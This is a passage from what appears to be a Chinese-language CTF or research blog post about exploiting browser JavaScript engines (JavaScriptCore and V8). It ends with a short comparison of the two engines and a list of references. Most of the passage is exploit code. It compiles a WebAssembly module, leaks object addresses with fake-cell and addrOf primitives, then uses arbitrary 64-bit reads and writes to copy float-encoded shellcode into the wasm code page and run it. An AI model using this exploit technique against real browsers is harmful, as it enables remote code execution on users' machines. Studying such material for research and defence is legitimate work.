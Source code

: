 ```
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);var wasmModule = new WebAssembly.Module(wasmCode);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule,`{``}`);
var f=wasmInstance.exports.main;
let shellcode = [
2.825563119134789e-71, 3.2060568105999132e-80,
-2.5309726874116607e+35, 7.034840446283643e-309
]
container.fake_cell=doubleleak
var f_addr=f2i(AddrOf(f));
var a4_addr=f2i(AddrOf(a4));
var vic_addr=f2i(AddrOf(victim));
leak("f_addr",f_addr)
leak("a4",a4_addr)
leak("victim",vic_addr)
var shellcode_addr=f2i(read64(i2f(f_addr+0x38)))
leak("shellcode_addr",shellcode_addr)
for(var i = 0; i &lt; shellcode.length; i++) `{`
write64(i2f(shellcode_addr+8*i), shellcode[i])
`}`
f();
```

## 总结

• jsc和v8两个还是比较类似的比较都是javascript的引擎，两者有相似之处，也有不同之处，jsc的jsvalue对我们写利用起来些许还是有点麻烦的，v8里面也有指针的压缩。总的来说，第一种方法比第二种方法要简单太多。

## Rerfer

https://www.anquanke.com/post/id/244472#h3-2

https://tech.meituan.com/2018/08/23/deep-understanding-of-jscore.html

https://blog.bi0s.in/2021/08/15/Pwn/InCTFi21-DeadlyFastGraph/

https://liveoverflow.com/revisiting-javascriptcore-internals-boxed-vs-unboxed-browser-0x06/
